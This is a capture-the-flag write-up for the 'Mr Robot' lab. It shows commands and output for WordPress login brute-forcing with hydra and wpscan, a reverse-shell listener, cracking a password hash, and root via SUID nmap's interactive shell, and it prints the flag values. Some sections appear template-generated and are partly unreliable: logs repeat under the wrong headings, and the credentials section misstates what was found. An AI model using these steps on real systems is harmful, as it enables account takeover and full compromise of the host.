

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | 22/tcp  closed ssh, 80/tcp  open   http, 443/tcp open   ssl/http |
| 主な侵入経路 | brute-force |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)


## Nmap
```bash
nmap -p- -sC -sV -T4 -A -Pn $ip
✅[21:44][CPU:1][MEM:25][IP:10.11.87.75][/home/n0z0/work/thm]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 21:44 JST
Nmap scan report for 10.10.18.10
Host is up (0.25s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|specialized|storage-misc|broadband router|WAP|printer
Running (JUST GUESSING): Linux 5.X|3.X|4.X|2.6.X (89%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 5.4 (89%), Linux 3.10 - 3.13 (88%), Linux 3.10 - 4.11 (88%), Linux 3.12 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.5 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   251.76 ms 10.11.0.1
2   252.30 ms 10.10.18.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.92 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

■参考リンク

https://qiita.com/H4ppyR41nyD4y/items/2a68e25d47a934b2f119

https://zenn.dev/sl91994/articles/2b20010c2ab49b

まずはポートスキャン

```bash
✅[21:44][CPU:1][MEM:25][IP:10.11.87.75][/home/n0z0/work/thm]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 21:44 JST
Nmap scan report for 10.10.18.10
Host is up (0.25s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|specialized|storage-misc|broadband router|WAP|printer
Running (JUST GUESSING): Linux 5.X|3.X|4.X|2.6.X (89%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 5.4 (89%), Linux 3.10 - 3.13 (88%), Linux 3.10 - 4.11 (88%), Linux 3.12 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.5 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   251.76 ms 10.11.0.1
2   252.30 ms 10.10.18.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.92 seconds
```

ディレクトリスキャンするとwordpressを利用していることがわかる

```bash
✅[23:20][CPU:1][MEM:35][IP:10.11.87.75][/home/n0z0]
🐉 > feroxbuster -u http://www.example.com -w /usr/share/wordlists/SecLists/Discovery/Web-Content/dire
ctory-list-2.3-big.txt -t 50 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://www.example.com
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        0l        0w        0c http://www.example.com/sitemap
200      GET       89l      137w     1159c http://www.example.com/wp-content/themes/twentyfifteen/css/ie7.css
200      GET       26l       94w      727c http://www.example.com/wp-content/themes/twentyfifteen/js/skip-link-focus-fix.js
200      GET        9l       74w     2432c http://www.example.com/wp-content/themes/twentyfifteen/js/html5.js
200      GET        1l      155w     8642c http://www.example.com/css/A.main-600a9791.css.pagespeed.cf.MQlhlai0Y_.css
200      GET       43l       43w     1045c http://www.example.com/wp-includes/wlwmanifest.xml
200      GET        2l      204w     7200c http://www.example.com/wp-includes/js/jquery/jquery-migrate.min.js
200      GET      178l      774w     5899c http://www.example.com/wp-content/themes/twentyfifteen/js/functions.js
200      GET       30l       98w     1188c http://www.example.com/index.html
200      GET      948l     1683w    14133c http://www.example.com/wp-content/themes/twentyfifteen/css/ie.css
200      GET      209l      871w    27519c http://www.example.com/wp-content/themes/twentyfifteen/genericons/genericons.css
200      GET       53l      158w     2627c http://www.example.com/wp-login.php
200      GET      636l     2179w    55357c http://www.example.com/js/s_code.js.pagespeed.jm.I78cfHQpbQ.js
200      GET       30l       98w     1188c http://www.example.com/
200      GET     6006l    10788w    97179c http://www.example.com/wp-content/themes/twentyfifteen/style.css
200      GET        1l      248w     6048c http://www.example.com/wp-includes/css/buttons.min.css,qver=4.3.1.pagespeed.ce.ZQERzcrubG.css
200      GET        6l     1414w    95977c http://www.example.com/wp-includes/js/jquery/jquery.js
200      GET        1l      688w    24200c http://www.example.com/wp-admin/css/login.min.css
200      GET        1l       10w    46120c http://www.example.com/wp-includes/css/dashicons.min.css,qver=4.3.1.pagespeed.ce.5l-W1PUiez.css
200      GET        6l     2259w   182009c http://www.example.com/js/vendor/vendor-48ca455c.js.pagespeed.jm.V7Qfw6bd5C.js
200      GET        0l        0w   495992c http://www.example.com/js/main-acba06a5.js.pagespeed.jm.YdSb2z1rih.js
200      GET       53l      158w     2685c http://www.example.com/wp-login.php?redirect_to=http%3A%2F%2Fwww.example.com%2Fwp-admin%2F&reauth=1
200      GET       21l       31w      813c http://www.example.com/feed/
200      GET        1l       14w       64c http://www.example.com/readme
[>-------------------] - 2h   1057670/51377754 4d      found:24      errors:1057022
[#>------------------] - 2h    528876/6793701 67/s    http://www.example.com/
[##>-----------------] - 2h    528776/5095276 67/s    http://www.example.com/images/
[##>-----------------] - 2h    528672/5095276 67/s    http://www.example.com/blog/
[##>-----------------] - 2h    528600/5095276 67/s    http://www.example.com/wp-content/themes/
[##>-----------------] - 2h    528620/5095276 67/s    http://www.example.com/wp-content/
[##>-----------------] - 2h    528396/5095276 67/s    http://www.example.com/feed/
[##>-----------------] - 2h    528412/5095276 67/s    http://www.example.com/comments/feed/
[##>-----------------] - 2h    527600/5095276 67/s    http://www.example.com/video/
```

wpscanすると詳細な情報が取得できる

```bash
✅[22:11][CPU:1][MEM:37][IP:10.11.87.75][/home/n0z0]
🐉 > wpscan --url http://$ip
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.18.10/ [10.10.18.10]
[+] Started: Wed Dec  4 22:12:32 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.18.10/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.18.10/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://10.10.18.10/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.18.10/40ae756.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.18.10/40ae756.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.18.10/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://10.10.18.10/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.9
 | Style URL: http://10.10.18.10/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.18.10/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:03:24 <=======================> (137 / 137) 100.00% Time: 00:03:24

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Dec  4 22:21:21 2024
[+] Requests Done: 182
[+] Cached Requests: 6
[+] Data Sent: 49.163 KB
[+] Data Received: 13.356 MB
[+] Memory used: 286.812 MB
[+] Elapsed time: 00:08:49
```

バージョンの確認ができた。ひどいや

`WordPress 4.3.1`


*Caption: Screenshot captured during mr-robot-ctf attack workflow (step 1).*

robots.txtにアクセスしてみると、flagと辞書ファイルが取得できた。

ユーザの特定をするために、hydraで存在するユーザの調査

```bash
hydra -L fsocity.dic -p test 10.10.18.10 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.18.10%2Fwp-admin%2F&testcookie=1:Invalid username" -t 30
🐉 > hydra -L fsocity.dic -p test 10.10.18.10 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-s
ubmit=Log+In&redirect_to=http%3A%2F%2F10.10.18.10%2Fwp-admin%2F&testcookie=1:Invalid username" -t 30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-05 00:45:41
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.18.10:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.18.10%2Fwp-admin%2F&testcookie=1:Invalid username
[80][http-post-form] host: 10.10.18.10   login: Elliot   password: test
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 858155 to do in 178:47h, 30 active
[80][http-post-form] host: 10.10.18.10   login: function   password: test
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Elliotユーザが存在することが確認できたので、wpscanで総当たり攻撃を仕掛ける

```bash
❌[1:31][CPU:1][MEM:50][IP:10.11.87.75][/home/n0z0]
🐉 > wpscan --url http://www.example.com -P ~/work/thm/Mr_Robot_CTF/unique.dic -U Elliot --force --enumerate u -t 100
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://www.example.com/ [10.10.18.10]
[+] Started: Thu Dec  5 01:32:12 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://www.example.com/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.example.com/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://www.example.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://www.example.com/2e87ec4.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://www.example.com/2e87ec4.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://www.example.com/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://www.example.com/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.9
 | Style URL: http://www.example.com/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.example.com/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:05 <========================> (10 / 10) 100.00% Time: 00:00:05

[i] No Users Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652
All Found
Progress Time: 00:00:34 <=======================                     > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Dec  5 01:33:50 2024
[+] Requests Done: 76
[+] Cached Requests: 6
[+] Data Sent: 1.606 MB
[+] Data Received: 1.508 MB
[+] Memory used: 229.012 MB
[+] Elapsed time: 00:01:38
```

ER28-0652のパスワードを利用していることがわかるので、ログインしてみる。

404.phpにリバースシェルを仕掛けてアクセスする。


*Caption: Screenshot captured during mr-robot-ctf attack workflow (step 2).*

権限がついてないみたいだったけど、password.raw-md5をデコードして、

robotsユーザにスイッチすると無事見られた。

```bash
❌[1:58][CPU:1][MEM:41][IP:10.11.87.75][/home/n0z0]
🐉 > nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.11.87.75] from (UNKNOWN) [10.10.18.10] 33534
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 16:58:09 up  4:14,  0 users,  load average: 0.00, 0.04, 1.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ cd /home
cd /home/
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ sudo -l -l
sudo: 3 incorrect password attempts
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ su robot
su robot
Password:       abcdefghijklmnopqrstuvwxyz

su: Authentication failure
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

sudoで実行できるコマンドを確認してたらnmapがあった。

```bash
robot@linux:~$ find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
< -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-touchlock
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwxr-sr-x 1 root utmp 421768 Nov  7  2013 /usr/bin/screen
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-unlock
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-lock
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwxr-sr-x 1 root crontab 35984 Feb  9  2013 /usr/bin/crontab
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwxr-sr-x 1 root shadow 54968 Feb 17  2014 /usr/bin/chage
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 23360 Feb 17  2014 /usr/bin/expiry
-rwxr-sr-x 1 root mail 14856 Dec  7  2013 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwxr-sr-x 1 root ssh 284784 May 12  2014 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 19024 Feb 12  2015 /usr/bin/wall
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
-rwxr-sr-x 1 root shadow 35536 Jan 31  2014 /sbin/unix_chkpwd
robot@linux:~$ sudo -l
sudo -l
```

シェルにアクセスする

```bash
nmap --interactive
```

シェルを立ち上げておく

```bash
nmap> !sh
```

後はflagを確認する

```bash
robot@linux:/opt/bitnami/stats$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
whoami
root
cd /root
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

done!

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

This command is executed during privilege escalation to validate local misconfigurations and escalation paths. We are looking for delegated execution rights, writable sensitive paths, or credential artifacts. Any positive result is immediately chained into a higher-privilege execution attempt.
```bash
nc -lvnp 1234
python -c 'import pty; pty.spawn("/bin/bash")'
ls -la
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
sudo: 3 incorrect password attempts
cat password.raw-md5
❌[1:58][CPU:1][MEM:41][IP:10.11.87.75][/home/n0z0]
🐉 > nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.11.87.75] from (UNKNOWN) [10.10.18.10] 33534
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 16:58:09 up  4:14,  0 users,  load average: 0.00, 0.04, 1.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ cd /home
cd /home/
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ sudo -l -l
sudo: 3 incorrect password attempts
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ su robot
su robot
Password:       abcdefghijklmnopqrstuvwxyz

su: Authentication failure
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
[80][http-post-form] host: 10.10.18.10   login: Elliot   password: test
[80][http-post-form] host: 10.10.18.10   login: function   password: test
```

## まとめ・学んだこと

### 4.Overview

---




## 参考文献

- nmap
- rustscan
- hydra
- nc
- sudo
- ssh
- cat
- find
- python
- php
- GTFOBins
